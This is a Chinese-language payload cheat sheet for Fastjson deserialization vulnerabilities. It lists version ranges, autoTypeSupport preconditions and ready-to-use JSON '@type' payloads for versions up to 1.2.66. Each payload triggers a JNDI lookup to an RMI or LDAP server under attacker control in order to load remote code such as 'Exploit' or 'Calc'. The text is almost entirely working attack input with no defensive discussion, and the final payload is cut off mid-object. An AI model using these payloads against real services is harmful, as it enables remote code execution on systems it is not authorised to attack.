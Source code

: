 # Fastjson 多版本payload集合

影响版本：

### fastjson<=1.2.24

exp：

```
{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://x.x.x.x:1099/jndi", "autoCommit":true}
```

影响版本：

### fastjson<=1.2.41

前提：
autoTypeSupport属性为true才能使用。（fastjson>=1.2.25默认为false）

exp：

```
{"@type":"Lcom.sun.rowset.JdbcRowSetImpl;","dataSourceName":"rmi://x.x.x.x:1098/jndi", "autoCommit":true}
```

影响版本：

### fastjson<=1.2.42

前提：
autoTypeSupport属性为true才能使用。（fastjson>=1.2.25默认为false）

exp：

```
{"@type":"LLcom.sun.rowset.JdbcRowSetImpl;;","dataSourceName":"ldap://localhost:1399/Exploit", "autoCommit":true}
```

影响版本：

### fastjson<=1.2.43

前提：
autoTypeSupport属性为true才能使用。（fastjson>=1.2.25默认为false）

exp：

```
{"@type":"[com.sun.rowset.JdbcRowSetImpl"[{,"dataSourceName":"ldap://localhost:1399/Exploit", "autoCommit":true}
```

影响版本：

### fastjson<=1.2.45

前提：
autoTypeSupport属性为true才能使用。（fastjson>=1.2.25默认为false）

exp：

```
{"@type":"org.apache.ibatis.datasource.jndi.JndiDataSourceFactory","properties":{"data_source":"ldap://localhost:1399/Exploit"}}
```

影响版本：

### fastjson<=1.2.47

exp：

```
{
    "a": {
        "@type": "java.lang.Class", 
        "val": "com.sun.rowset.JdbcRowSetImpl"
    }, 
    "b": {
        "@type": "com.sun.rowset.JdbcRowSetImpl", 
        "dataSourceName": "ldap://x.x.x.x:1999/Exploit", 
        "autoCommit": true
    }
}
```

影响版本：

### fastjson<=1.2.62

exp：

```
{"@type":"org.apache.xbean.propertyeditor.JndiConverter","AsText":"rmi://127.0.0.1:1098/exploit"}"
```

影响版本：

### fastjson<=1.2.66

前提：
autoTypeSupport属性为true才能使用。（fastjson>=1.2.25默认为false）

exp：

```
{"@type":"org.apache.shiro.jndi.JndiObjectFactory","resourceName":"ldap://192.168.80.1:1389/Calc"}

{"@type":"br.com.anteros.dbcp.AnterosDBCPConfig","metricRegistry":"ldap://192.168.80.1:1389/Calc"}

{"@type":"org.apache.ignite.cache.jta.jndi.CacheJndiTmLookup","jndiNames":"ldap://192.168.80.1:1389/Calc"}

{"@type":"com.ibatis.sqlmap.engine.transaction.jta.JtaTransactionConfig","properties": {
```